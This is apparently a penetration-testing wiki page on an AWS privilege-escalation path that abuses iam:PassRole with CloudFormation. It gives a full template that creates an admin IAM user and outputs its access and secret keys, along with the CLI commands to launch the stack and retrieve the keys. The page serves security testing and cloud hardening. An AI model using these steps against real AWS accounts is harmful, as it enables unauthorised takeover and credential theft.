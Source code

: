 # iam:PassRole, cloudformation:CreateStack,and cloudformation:DescribeStacks

{{#include ../../../../banners/hacktricks-training.md}}

An attacker could for example use a **cloudformation template** that generates **keys for an admin** user like:

```json
{
  "Resources": {
    "AdminUser": {
      "Type": "AWS::IAM::User"
    },
    "AdminPolicy": {
      "Type": "AWS::IAM::ManagedPolicy",
      "Properties": {
        "Description": "This policy allows all actions on all resources.",
        "PolicyDocument": {
          "Version": "2012-10-17",
          "Statement": [
            {
              "Effect": "Allow",
              "Action": ["*"],
              "Resource": "*"
            }
          ]
        },
        "Users": [
          {
            "Ref": "AdminUser"
          }
        ]
      }
    },
    "MyUserKeys": {
      "Type": "AWS::IAM::AccessKey",
      "Properties": {
        "UserName": {
          "Ref": "AdminUser"
        }
      }
    }
  },
  "Outputs": {
    "AccessKey": {
      "Value": {
        "Ref": "MyUserKeys"
      },
      "Description": "Access Key ID of Admin User"
    },
    "SecretKey": {
      "Value": {
        "Fn::GetAtt": ["MyUserKeys", "SecretAccessKey"]
      },
      "Description": "Secret Key of Admin User"
    }
  }
}
```

Then **generate the cloudformation stack**:

```bash
aws cloudformation create-stack --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::[REDACTED]:role/adminaccess \
    --capabilities CAPABILITY_IAM --region us-west-2
```

**Wait for a couple of minutes** for the stack to be generated and then **get the output** of the stack where the **credentials are stored**:

```bash
aws cloudformation describe-stacks \
    --stack-name arn:aws:cloudformation:us-west2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e \
    --region uswest-2
```

### References

- [https://bishopfox.com/blog/privilege-escalation-in-aws](https://bishopfox.com/blog/privilege-escalation-in-aws)

{{#include ../../../../banners/hacktricks-training.md}}



